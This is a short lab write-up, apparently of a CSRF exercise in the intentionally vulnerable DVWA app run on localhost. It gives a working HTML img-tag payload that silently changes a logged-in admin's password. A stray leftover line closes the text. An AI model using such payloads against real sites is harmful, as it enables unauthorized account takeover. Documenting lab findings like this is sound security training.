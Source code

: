 ﻿# DVWA – Cross-Site Request Forgery (CSRF) – Low

**Target:** http://127.0.0.1/dvwa/vulnerabilities/csrf/  
**Date:** 2025-09-27  
**Author:** Braxton Beck (Ben-Frank17)  
**Severity:** High  

## Summary
The password change endpoint lacks CSRF protections. A logged-in user’s browser will execute a password change request initiated from another site, allowing unauthorized password change.

## PoC (reproducible)
**Prereq:** Logged in as `admin` with DVWA Security = low.

**Payload A (GET via image):**
```html
<img src="http://127.0.0.1/dvwa/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change" />
```Evidence:
![csrf screenshot](dvwa_csrf.png)
# close the here-string and write the file
